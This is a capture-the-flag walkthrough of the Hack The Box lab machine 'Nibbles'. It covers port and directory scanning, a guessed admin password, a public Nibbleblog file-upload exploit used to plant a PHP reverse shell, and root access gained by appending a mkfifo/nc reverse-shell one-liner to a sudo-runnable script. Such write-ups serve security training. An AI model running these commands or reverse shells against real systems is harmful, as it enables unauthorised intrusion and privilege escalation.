 ```bash
ghost@localhost [06:21:18] [~/Documents/hacking/tj-null-boxes/nibbles] [master]
-> % export IP=10.10.10.75
```

# Scan results
```bash
ghost@localhost [06:23:21] [~/Documents/hacking/tj-null-boxes/nibbles] [master]
-> % rustscan -a $IP -- -sC -sV
Open 10.10.10.75:22
Open 10.10.10.75:80
```

## Port 80 /
```bash
ghost@localhost [06:26:55] [~/Documents/hacking/tj-null-boxes/nibbles] [master]
-> % curl -vvv http://$IP
*   Trying 10.10.10.75:80...
* Connected to 10.10.10.75 (10.10.10.75) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.75
> User-Agent: curl/7.85.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Tue, 20 Sep 2022 22:27:05 GMT
< Server: Apache/2.4.18 (Ubuntu)
< Last-Modified: Thu, 28 Dec 2017 20:19:50 GMT
< ETag: "5d-5616c3cf7fa77"
< Accept-Ranges: bytes
< Content-Length: 93
< Vary: Accept-Encoding
< Content-Type: text/html
<
<b>Hello world!</b>
<!-- /nibbleblog/ directory. Nothing interesting here! -->
* Connection #0 to host 10.10.10.75 left intact
```

## Port 80 /nibbleblog
Running gobuster gives out some results.
```bash
ghost@localhost [06:28:25] [~/Documents/hacking/tj-null-boxes/nibbles] [master]
-> % gobuster dir -u http://$IP/nibbleblog -k -w /usr/share/dirb/wordlists/common.txt
/.hta                 (Status: 403) [Size: 301]
/.htaccess            (Status: 403) [Size: 306]
/.htpasswd            (Status: 403) [Size: 306]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php            (Status: 200) [Size: 1401]
/content              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/content/]
/index.php            (Status: 200) [Size: 2987]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.75/nibbleblog/languages/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.10.75/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.75/nibbleblog/themes/]
```

Found an admin page at http://10.10.10.75/nibbleblog/admin.php.

It appears that the website is running the open source nibbleblog platform (https://www.nibbleblog.com/). README shows that it is running version 4.0.3.

Searchsploit result shows there's a file upload vulnerability.

```bash
ghost@localhost [06:34:25] [~/Documents/hacking/tj-null-boxes/nibbles] [master]
-> % searchsploit nibbleblog
--------------------------------------------------------- ---------------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
Nibbleblog 3 - Multiple SQL Injections                   | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)    | php/remote/38489.rb
--------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Found an exploit without using metasploit (https://github.com/dix0nym/CVE-2015-6967/blob/main/exploit.py). However, we need a credential, after some manual guesses, I manage to login with the following credential.

`admin:nibbles`

Therefore, with an exploit above, I upload the following PHP reverse shell payload (https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).

```bash
ghost@localhost [07:03:38] [~/Documents/hacking/tj-null-boxes/nibbles] [master *]
-> % python3 exploit.py --url http://$IP/nibbleblog/ --username admin --password nibbles --payload shell.php
[+] Login Successful.
[+] Upload likely successfull.
```

```bash
ghost@localhost [07:02:44] [~/Documents/hacking/tj-null-boxes/nibbles] [master *]
-> % nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.75] 34926
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 19:03:47 up 6 min,  0 users,  load average: 0.00, 0.05, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

## user.txt

```bash
nibbler@Nibbles:/$ cd ~

nibbler@Nibbles:/home/nibbler$ cat user.txt
31fa0***
```

## Privilege Escalation

From linpeas, I found this following interesting script that can be run without sudo password.

```bash
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Since I have write access to the file, I add the following reverse shell command at the end of the file.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.8 4445 > /tmp/f" >> monitor.sh
```

Then with another reverse shell listener running, the script is executed as sudo as below

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
<er/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
'unknown': I need something more specific.
/home/nibbler/personal/stuff/monitor.sh: 26: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 36: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 43: /home/nibbler/personal/stuff/monitor.sh: [[: not found
```

Then in the revere shell, we receives sudo shell.

```bash
ghost@localhost [07:33:56] [~/Documents/tools/peas]
-> % nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.10.75] 53086
# id
uid=0(root) gid=0(root) groups=0(root)

# cd ~

# ls
root.txt

# cat root.txt
b809c***
```
